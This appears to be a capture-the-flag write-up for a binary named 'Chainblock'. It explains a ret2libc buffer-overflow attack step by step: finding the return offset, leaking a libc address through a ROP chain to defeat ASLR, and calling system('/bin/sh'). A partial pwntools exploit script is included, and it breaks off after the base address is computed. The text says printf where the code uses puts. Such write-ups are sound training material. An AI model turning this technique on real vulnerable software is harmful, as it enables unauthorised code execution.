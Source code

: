 ```
	printf("----------------------------------------------------------------------------------");
	printf("\n\n");

	printf("Welcome to Chainblock, the world's most advanced chain of blocks.\n\n");

	printf("Chainblock is a unique company that combines cutting edge cloud\n");
	printf("technologies with high tech AI powered machine learning models\n");
	printf("to create a unique chain of blocks that learns by itself!\n\n");

	printf("Chainblock is also a highly secure platform that is unhackable by design.\n");
	printf("We use advanced technologies like NX bits and anti-hacking machine learning models\n");
	printf("to ensure that your money is safe and will always be safe!\n\n");

	printf("----------------------------------------------------------------------------------");
	printf("\n\n");

	printf("For security reasons we require that you verify your identity.\n");

	verify();
}

```

Read source code and we can understand flow of this.
Since binary file has no win funtion and we provided libc file so we have to used ret2libc attack.

First thing, we have to find the RIP offset from the start of the input buffer, we can basically crash the programm with a long enough input inside gdb and check the offset. 
It is 264. (256 + 8)

Next we have to leak a libc address to defeat the ASLR, we can jump to printf@plt and pass as parameter the address of printf@got. 
Once we leaked the address we can calculate the libc base address.

After the leak we have to perform another buffer overflow, so let's jump to main and craft another ROP-chain. 
Now we just need to jump to system and pass the address of */bin/sh* as parameter to the function. We can find system funtion offset in libc file.

Sometimes the rop-chain won't work because printf and system function crash. That happens because the stack is not aligned to 16 byte, to fix this issue we can put a ret gadget as the first gadget, 
so it will pop 8 bytes from the stack and fix the alignment.

```
from pwn import * 

BIN = "./chainblock"
libc = ELF("libc.so.6")
elf = ELF(BIN)
name = b"Techlead "
pop = 0x0000000000401493 #pop rdi ; ret
ret = 0x000000000040101a

def exploit():
	payload = name + b"a"*(256-len(name)) + b"b"*8
	payload += p64(pop)
	payload += p64(elf.symbols['got.puts'])
	payload += p64(elf.symbols['plt.puts'])
	payload += p64(elf.symbols['main'])
	io.sendline(payload)
	io.recvuntil('KYC failed, wrong identity!\n')
	puts = u64((io.recv(6)+b'\x00'*2))

	libc_base = puts - libc.symbols['puts']
	print("Libc base:", hex(libc_base))
	sys_offset = libc.symbols['system']
```